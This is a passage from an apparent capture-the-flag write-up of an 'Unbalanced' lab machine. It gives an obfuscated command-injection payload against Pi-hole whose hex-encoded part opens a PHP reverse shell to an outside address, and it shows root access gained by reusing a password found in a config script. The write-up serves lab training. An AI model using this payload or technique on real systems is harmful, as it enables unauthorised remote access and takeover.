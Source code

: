 All we need to do is make sure that the quotes are replaced to ascii quotes and replace the hex payload which can be done using cyberchef.

Our payload would look something like this:

```html
aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN("706870202d72202724736f636b3d66736f636b6f70656e282231302e31302e31342e3336222c39303031293b6578656328222f62696e2f7368202d69203c2633203e263320323e263322293b27"));'&&
```

Following the steps in the technical breakdown we get a reverse shell as www-data.

## Root

As the user www-data we can read `/root` directory inside of which there is a config script containing a password.

```python
cat pihole_config.sh 
#!/bin/bash

# Add domains to whitelist
/usr/local/bin/pihole -w unbalanced.htb
/usr/local/bin/pihole -w rebalanced.htb

# Set temperature unit to Celsius
/usr/local/bin/pihole -a -c

# Add local host record
/usr/local/bin/pihole -a hostrecord pihole.unbalanced.htb 127.0.0.1

# Set privacy level
/usr/local/bin/pihole -a -l 4

# Set web admin interface password
/usr/local/bin/pihole -a -p 'bUbBl3gUm$43v3Ry0n3!'

# Set admin email
/usr/local/bin/pihole -a email admin@unbalanced.htb
```

We can use this password to su to root on the victim machine and grab the root flag.

```bash
bryan@unbalanced:~$ su root
Password: bUbBl3gUm$43v3Ry0n3!
root@unbalanced:/home/bryan# whoami
root
```
